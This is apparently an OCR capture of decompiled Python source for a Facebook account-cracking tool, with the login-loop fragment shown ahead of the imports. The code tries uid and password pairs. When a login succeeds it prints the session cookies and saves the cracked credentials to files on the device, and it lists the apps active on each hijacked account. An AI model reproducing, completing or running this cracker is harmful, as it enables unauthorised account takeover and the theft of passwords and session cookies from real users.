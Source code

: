            log_cookies=session.cookies.get_dict().keys()
            if 'c_user' in log_cookies:
                coki=";".join([key+"="+value for key,value in session.cookies.get_dict().items()])
                cid = coki[7:22]
                print('\r\r\033[1;32m[SAJJAD-OK💚] \033[0;97m'+uid+'\033[1;32m | \033[0;93m' +ps+    '  \n[‎‎🌺]\033[0;93m COOKIE = \033[1;32m'+coki+  '  ''  \033[0;97m')
                cek_apk(session,coki)
                open('/sdcard/SAJJAD-OK.txt', 'a').write( uid+' | '+ps+'\n')
                oks.append(cid)
                break
            elif 'checkpoint' in log_cookies:
                coki=";".join([key+"="+value for key,value in session.cookies.get_dict().items()])
                cid = coki[24:39]
                #print('\r\r\33[1;30m[MKR-CP] ' +uid+ ' | ' +ps+           '  \33[0;97m')
                open('/sdcard/SAJJAD-CP.txt', 'a').write( uid+' | '+ps+' \n')
                cps.append(cid)
                break
            else:
                continue
        loop+=1
        sys.stdout.write(f'\r\r%s{x}[{xr}SAJJAD{x}][%s|%s][OK:{xr}%s{x}]'%(H,loop,tl,len(oks))),
        sys.stdout.flush()
    except:
        pass
 
xxr()
 
#bokachoda Sajjad decompile by ASRAF AHMED
# Time Succes decompile : 2023-11-04 11:21:09.453795
import os,sys,time,json,random,re,string,platform,base64,uuid
os.system("git pull")
from bs4 import BeautifulSoup as sop
from bs4 import BeautifulSoup
import requests as ress
from datetime import date
from datetime import datetime
from time import sleep
from time import sleep as waktu
try:
    import requests
    from concurrent.futures import ThreadPoolExecutor as ThreadPool
    import mechanize
    from requests.exceptions import ConnectionError
except ModuleNotFoundError:
    os.system('pip install mechanize requests futures bs4==2 > /dev/null')
    os.system('pip install bs4')
    
def cek_apk(session,coki):
    w=session.get("https://mbasic.facebook.com/settings/apps/tabbed/?tab=active",cookies={"cookie":coki}).text
    sop = BeautifulSoup(w,"html.parser")
    x = sop.find("form",method="post")
    game = [i.text for i in x.find_all("h3")]
    if len(game)==0:
        print(f'\r%s[%s!%s] %sSorry there is no Active  Apk%s  '%(N,M,N,M,N))
    else:
        print(f'\r[🌺] %s \x1b[1;95m  Your Active Apps      :{WHITE}'%(GREEN))
        for i in range(len(game)):
            print(f"\r[%s%s] %s%s"%(N,i+1,game[i].replace("Ditambahkan pada"," Ditambahkan pada"),N))
        #else:
            #print(f'\r %s[%s!%s] Sorry, Apk check failed invalid cookie'%(N,M,N))
    w=session.get("https://mbasic.facebook.com/settings/apps/tabbed/?tab=inactive",cookies={"cookie":coki}).text
